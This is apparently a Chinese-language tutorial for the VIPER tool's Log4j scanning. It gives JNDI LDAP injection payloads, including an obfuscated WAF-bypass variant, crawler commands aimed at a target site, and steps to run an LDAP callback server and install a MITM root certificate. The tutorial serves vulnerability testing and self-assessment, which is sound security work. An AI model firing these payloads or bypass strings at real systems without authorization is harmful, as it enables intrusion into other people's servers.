


# 使用VIPER扫描Log4j漏洞(主动扫描/被动扫描)

# 功能特性

## 被动扫描

+ 自动替换GET请求参数为Payload
+ 自动替换POST请求参数为Payload
+ 自动替换POST请求JSON中值为Payload
+ 自动替换跳过密码字段
+ 自动在headers中添加Payload(依据字典轮询)
+ Payload包含原始Payload与绕过WAF的Payload
+ 支持DNSLOG与LDAPServer两种回连模式(LDAPServer更适用于内网自查)

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ Payload中包含UUID,可根据DNSLOG记录查找具体触发漏洞的请求内容

## 主动扫描

+ 通过chrome headless + 爬虫的方式获取自动获取页面所有请求,将请求导入到被动proxy中,实现自动化扫描
+ 命令

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

# 使用教程

## 被动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER


+ 将浏览器代理设置为viperip:28888


+ 开启`被动扫描`中Log4j2模块


+ 通过浏览器打开目标网站,随意点击,输入信息等


+ VIPER后台会自动替换输入的值为Payload
+ 登录DNSlog平台,观察是否有记录


+ 拷贝红框中的uuid信息,在主页面查询


+ 查询结果中包含可以触发漏洞的具体请求


## 主动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER


+ 开启`被动扫描`中Log4j2模块


+ 这里假设准备测试的网站为[http://target.com](http://target.com)
+ 安装crawlergo  [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)
+ 启动爬虫,并将流量发送到VIPER的代理中

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

+ 等待爬虫结束
+ 登录DNSlog平台,观察是否有记录


+ 拷贝红框中的uuid信息,在主页面查询


+ 查询结果中包含可以触发漏洞的具体请求(<font style="color:#E8323C;">该请求为Crawlergo自动发送</font>)


## 使用LDAPServer回连

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER


+ 将浏览器代理设置为viperip:28888


+ 开启`被动扫描`中Log4j2模块


+ 这里配置DNSLOG为`VPSIP:1387`


+ 执行如下命令,开启VIPER内置的LDAPServer

```plain
docker exec -it viper-c bash
python3 /root/viper/STATICFILES/Tools/ldapserver.py -p 1387
```


+ 通过浏览器打开目标网站,随意点击,输入信息等




+ VIPER后台会自动替换输入的值为Payload
+ LDAPServer会收到回连请求,并打印请求UUID


+ 拷贝红框中的uuid信息,在主页面查询




+ 查询结果中包含可以触发漏洞的具体请求


##  

## 测试HTTPS网站

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER


+ 将浏览器代理设置为viperip:28888


+ 浏览器打开[http://mitm.it/](http://mitm.it/)


+ 下载对应平台的证书,并安装(以windows为例)


+ 不用填写信息


+ 这里要选择受信任的根证书


+ 请在测试结束后从系统配置中删除对应的证书


